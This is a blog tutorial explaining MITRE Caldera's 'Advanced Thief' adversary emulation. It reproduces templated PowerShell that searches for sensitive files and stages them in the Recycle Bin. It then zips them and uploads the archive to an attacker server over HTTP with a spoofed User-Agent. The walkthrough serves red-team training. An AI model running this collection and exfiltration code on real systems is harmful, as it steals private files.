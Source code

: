 ```yaml
---
title: Caldera Fact Sources by Theft
draft: false
authors:
  - admin
date: 2024-05-02
tags:
  - Caldera
  - Theif
  - Fact Sources 
  - Exfil
---
```


Were going to walk throught the Advanced Theif adversary and understand whats going on. We'll start first with Abilities, setup Fact Sources last and disect commands in the middle. 
This adversary is simple and has only a few abilities to configure setup.  

## Theif

This adversary searches for files, compress them and exfiltrate to the attackers server.  

## Abilities

### 1. Advanced File Search and Stager
- **Tactic**:                    Collection
- **Technique ID**:        [T1119](https://attack.mitre.org/techniques/T1119/)
- **Technique Name**: Automation Collection
- **Payload**: [file_search.ps1](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.ps1) [file_search.sh](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.sh)

The payload is really well written. Clean and easy to ready. Something you could use to learn PowerShell with. 

This script essentially searches the box for files of interest or a specific file. Then places them in a staging location. 

**Command**

```shell
.\file_search.ps1 -Extensions '#{windows.included.extensions}' -ExcludedExtensions '#{windows.excluded.extensions}'
 -Directories '#{windows.included.directories}' -ExcludedDirectories '#{windows.excluded.directories}'
 -AccessedCutoff #{file.last.accessed} -ModifiedCutoff #{file.last.modified}
 -SearchStrings '#{file.sensitive.content}' -StagingDirectory '#{windows.staging.location}'
 -SafeMode $#{safe.mode.enabled} -PseudoExtension #{pseudo.data.identifier}
```


- In the command its passing several fact sources to the payload. 
- the use of `-Extensions` sets file extensions and directories to include and exclude with `-Excluded Extenstions`.
- Its specifies what extensions and directories to exclude with `-Directories`, ` -ExcludedDirectories`. This is going to speed up the search on the box by narrowing the scope.
- The access cutoff will be in days. Its looking back 30 days for files a user has accessed or modified with `-AccessedCutoff`
- With `-SearchStings` the fact passes a list of key word to look for.
- It sets the staging directory with `-StagingDirectory`. The location where all the files will be dumped before compressing
- `-SafeMode` is an interesting switch paired with `-PseudoExtension`. In the payload you see `[bool] $SafeMode = $False,` and a fact source. This a Boolean with the default being False. Safemode is the switch to use  `-PseudoExtension`or not and represents the basename of the file.  So if set to True and you passed the file special.txt. That would be the only file return once the payload is efiltrated. Example being Report.pdf this would be `Report`.  If `-SafeMode` is set to True it will use `-PseudoExtension` and make sure the file matches this.


### 2. Compress Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- **Technique Name**: Archive Collected Data: Archive via Utility 

```shell
Compress-Archive -Path #{host.dir.staged} -DestinationPath #{host.dir.staged}.zip -Force;
sleep 1; ls #{host.dir.staged}.zip | foreach {$_.FullName} | select
```

- Compress-Archive takes the path of our the staging directory. That being the Recycle Bin. 
- Destination Path is where you're putting the files. Looks like its the same location. Its will create a .zip of the files.
- With `-Force` set it overrides any existing files with the same name
- In Caldera you can see the response of the command. So we see the `;` adding another command sleeping for 1 second. Followed by a ls -Piped-> into a foreach loop on the output of ls.  Unsure why this is needed.

### 3. Exfil Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1041](https://attack.mitre.org/techniques/T1041/)
- **Technique Name**: Exfiltration Over C2 Channel


Finally into the final stage of the adversary where the data is exfiltrated.  


```python
# Set variables
$ErrorActionPreference = 'Stop';
$fieldName = "#{host.dir.compress}";
$filePath = "#{host.dir.compress}";
$url = "#{server}/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");

$result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
```

This is what a http request looks like in powershell. They build the HTTP client set the file and adds a user agent. Lastly we package it up and ship it back.


- Right in the beginning we set variables and use the Fact Source details. 
- Next we call to .Net System.Net.Http library and load it. 
- Then the assembly of the client is performed and building of the request. Like setting the User-Agent and attaching the payload.


https://learn.microsoft.com/en-us/dotnet/api/system.net.http?view=net-8.0

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4


## Fact Sources

Now that we've covered the Abilities lets focus on Fact Sources. They are a little confusing at first. Fact Sources are just configuration settings for your Adversaries abilities. Abilities can tap into templating to set template variable from facts. 

Facts are a collection of key/values that are used to pass into an Operation. As the Operation executes it populates the templated text in a command or ability with the Fact Sources value. Like a the shapes box when we were younger. Its possible to run an Adversary in an Operation without the correct fact sources.

Continuing on, below are the Fact Sources needed with a description of what role they play in the Abilities.

| Fact Source                  | Description                                                                  |
| ---------------------------- | ---------------------------------------------------------------------------- |
| windows.included.extensions  | File extensions that should not be ignored                                   |
| windows.excluded.extensions  | File extensions to ignore                                                    |
| windows.included.directories | Base Directory to crawl                                                      |
| windows.excluded.directories | What directories are out of scope                                            |
| file.last.accessed           | Time Frame -30 Days                                                          |
| file.last.modified           | Time Frame -30 Days                                                          |
| file.sensitive.content       | Its a list of possible keywords used to identify sensitive content           |
| windows.staging.location     | Location to stage the compression. Its set to Recycle bin... kind of cleaver |
| pseudo.data.identifier       | specific file name                                                           |

### File Compression

| Fact Source     | Description                                      |
| --------------- | ------------------------------------------------ |
| host.dir.staged | Location the files will be stored and compressed |

### Exfil

| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |

### Prebuilt Fact Sources

The Fact Source entries form above are included in the **Exfil Operation** collection of facts. 
We are missing a few of the facts that are required. 

#### Missing Fact 
| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.staged   | Loation where the files where staged         | 
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |


